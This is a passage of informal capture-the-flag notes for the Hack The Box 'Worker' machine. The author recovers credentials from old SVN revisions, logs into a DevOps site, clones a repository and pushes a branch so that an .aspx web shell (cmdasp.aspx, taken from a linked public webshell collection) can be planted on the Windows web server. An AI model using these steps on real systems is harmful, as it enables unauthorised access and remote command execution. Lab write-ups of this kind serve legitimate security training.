 ```bash
A    moved.txt
Checked out revision 5.

```
-the newest version is 5 but i went back to se repository in previous
version 2,3,4
-cred founded
```
┌──(pwn㉿kali)-[~/svn]
└─$ cat moved.txt  
This repository has been migrated and will no longer be maintaned here.
You can find the latest version at: http://devops.worker.htb

go to http://devops.worker.htb
enter cred , we are in!!

```
![[Pasted image 20250209091358.png]]

-its windows web server maybe .aspx revshell works
- lets clone repo in the website
-**Cloning** means making a **full copy** of a repository (codebase) from a remote server onto your local machine.
https://github.com/tennc/webshell?tab=readme-ov-file
```bash
$ git clone http://devops.worker.htb/ekenas/SmartHotel360/_git/spectral

```

```bash
┌──(pwn㉿kali)-[~/svn/cloned/spectral]
└─$ git branch ahmad
                                                                                                                  
┌──(pwn㉿kali)-[~/svn/cloned/spectral]
└─$ ls
assets  cmdasp.aspx  elements.html  generic.html  images  index.html  LICENSE.txt  README.txt
                                                                                                                  
┌──(pwn㉿kali)-[~/svn/cloned/spectral]
└─$ git checkout ahmad                                                   
Switched to branch 'ahmad'
                                                                                                                  
┌──(pwn㉿kali)-[~/svn/cloned/spectral]
└─$ git push          
fatal: The current branch ahmad has no upstream branch.
To push the current branch and set the remote as upstream, use

    git push --set-upstream origin ahmad

To have this happen automatically for branches without a tracking
upstream, see 'push.autoSetupRemote' in 'git help config'.

                                                                                                                  
┌──(pwn㉿kali)-[~/svn/cloned/spectral]
└─$ git push --set-upstream origin ahmad
Username for 'http://devops.worker.htb': nathen
Password for 'http://nathen@devops.worker.htb': 
Total 0 (delta 0), reused 0 (delta 0), pack-reused 0 (from 0)
To http://devops.worker.htb/ekenas/SmartHotel360/_git/spectral
 * [new branch]      ahmad -> ahmad
branch 'ahmad' set up to track 'origin/ahmad'.


```
